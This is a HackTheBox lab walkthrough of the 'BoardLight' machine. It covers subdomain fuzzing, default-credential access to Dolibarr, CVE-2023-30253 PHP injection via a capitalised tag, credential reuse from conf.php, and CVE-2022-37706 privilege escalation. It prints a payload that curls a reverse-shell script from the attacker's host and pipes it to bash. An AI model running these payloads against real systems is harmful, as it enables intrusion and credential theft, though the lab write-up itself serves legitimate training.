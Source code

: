 +++ 
draft = false
date = 2024-06-04T13:07:16+01:00
title = "BoardLight HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["Subdomain Discovery","ffuf","Dollibarr","Find","Grep","CVE-2023-30253","CVE-2022-37706"]
categories = []
externalLink = ""
series = []
+++

![image](Scr_25.png#centre)

[comment]: <> (Insertar imagen de la carátula de la máquina)


The Usage HTB machine is a madium difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

    - Grep / Find
    - Subdomain discovery with ffuf
    - CVE-2023-30253
    - CVE-2022-37706

## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.11 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:

![image](Scr.png)

It looks like ports 20 and 80 are open. Classic open ports for SSH and https. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80 10.10.11.11 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:

![image](Scr_1.png)

This is the page visible on port 80:

![image](Scr_2.png)

It doesn't appear to be anything interesting in this page. However, since we still dont know the hostname, we have some valuable information: the hostname might be board.htb, since there is an e-mail shown "info@board.htb".

Lets continue our enumeration, now trying to find existing subdomain. For this, we will use ffuf to fuzz for subdomains:

```sh
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949,0
````
![image](Scr_3.png)

It is important to user the parameter -fs 15949, to filter out any false positives.

![image](Scr_5.png)

We have found a subdomain: crm.board.htb. We add it to /etc/hosts, and see what is there:

![image](Scr_6.png)

It looks like the dolibarr login page. 

## Initial access

After a quick search, we can find the default user/password for dolibarr, and we can log in.

![image](Scr_7.png)

![image](Scr_8.png)

Searching the web, there is an exploit for this version of dolibarr. It leverages the dynamic content interpretation of the webpages, allowing us to execute arbitrary commands. [Here](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/tree/main) are the complete instructions.

First, we create a new website, named test:

![image](Scr_9.png)

Then, we create a new page for the website:

![image](Scr_10.png)

And now, we can edit the HTML source and add our mallicious PHP code. 

![image](Scr_11.png)

The trick here is that we can bypass dollibar's protection against PHP code, by capitalizing our tag. Dolibarr blocks <?php> tags, but not <?Php> or <?pHP>... So we can now try to run a simple 2+2, to see if it interprets the code:

![image](Scr_12.png)

![image](Scr_13.png)

And it worked! 2+2=4.

Now, lets try to get a reverse shell. We can make a simple-hhtp-server, and serve a bash reverse shell script which will be curled and piped into bash and executed on the victim machine.

Here we set up the [simple-http-server](https://github.com/TheWaWaR/simple-http-server)

![image](Scr_15.png)

And we access the page to see if the shell.html is displayed properly.

![image](Scr_16.png)

Sweet! Now we just have to pipe it to the victim machine. This is the PHP payload:

```php
<?PHP system('curl http://10.10.14.86:8000/shell.html | bash');?>
```

![image](Scr_14.png)

Before clicking "save", be sure to have a netcat listener waiting for the reverse shell. And voilà, we have access to the user www-data.

![image](Scr_17.png)


## Lateral movement


Lets do some reconnaissance as user www-data. For this, we will be using linpeas, which can be downloaded from the attacker's machine via wget.

```sh
wget http://10.10.14.86:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Linpeas reports some interesting files:

![image](Scr_19.png)

By looking into the contents of /var/www/html/crm.board.htb/htdocs/conf, we fin the conf.php file, which contains DB_USER and DB_PASS. 

![image](Scr_18.png)

Linpeas also reported that another user, Larissa, has acces to a shell, so lets try the password on user larissa. Trying to log into ssh with user larissa and the password obtained earlier:

```sh
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

![image](Scr_22.png)

Another way to find DB_USER and DB_PASS is by using grep:

```sh
grep -arin 'DB_USER\|DB_PASSWORD' |awk -F':' '{print $1}' | sort | uniq -c
```

## Privilege escalation

By running Linpeas again, it reports some interesting SUID binaries:

![image](Scr_23.png)

This SUID binaries can also be found using find:

```sh
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```


The binaries are from the enlightenment linux window manager. There is a CVE related to this window manager, so lets try the [PoC of CVE-2022-37706](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit
) to see if this version of enlightenment is vulnerable to LPE.

![image](Scr_24.png)


And just like that, we can now cat out the root flag and the machine is pwned.

## Conclusion

Hacking through the BoardLight HTB machine provides valuable insights into penetration testing techniques, including enumeration, vulnerability exploitation, and privilege escalation. By understanding these steps, aspiring ethical hackers like me can enhance their skills and contribute positively to the cybersecurity landscape.
